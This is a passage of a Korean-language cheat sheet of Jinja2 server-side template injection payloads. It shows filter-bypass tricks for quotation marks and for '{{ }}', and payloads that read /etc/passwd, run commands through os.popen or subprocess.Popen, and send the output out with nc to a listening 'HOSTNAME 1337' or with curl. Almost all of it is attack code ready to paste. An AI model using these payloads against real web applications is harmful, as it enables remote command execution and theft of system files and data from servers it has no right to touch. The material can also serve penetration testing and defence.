 ```python

# quotation mark(", ')를 필터링 하고있는 경우
# 1. CHR function
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read()}}
# 2. Request object
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/etc/passwd
# 3. Command execution
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(chr(105)%2bchr(100)).read() }}
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(request.args.cmd).read() }}&cmd=id
```

<br>

### 1.3.6. Filtering `{{`, `}}` Bypass

Jinja2 Template Engine 구문 중 하나인 `{% %}` 를 이용한다. (Blind SSTI)

```python
{% if(config.__class__.__init__.__globals__['os'].popen('ls | nc 127.0.0.1 8080')) %}{% endif %}
{% for i in range(0,500) %} {% if(((''.__class__.__mro__[1].__subclasses__()[i])|string) == "<class 'subprocess.Popen'>") %} {% if(''.__class__.__mro__[1].__subclasses__()[i]('ls | nc 127.0.0.1 8080', shell=True, stdout=-1)) %} {% endif %} {% endif %} {% endfor %}

{% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /etc/passwd | nc HOSTNAME 1337')['read']() == 'chiv' %} a {% endif %}
# HackerPC: $ nc -lvnp 1337
# Output: root:x:0:0:root:/root:/bin/bash ... (cat /etc/passwd Output)

# CURL 을 이용한 출력값 획득 방법
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' %}1{% endif %}

# 
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}         //Popen's parameters are the command to be executed
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
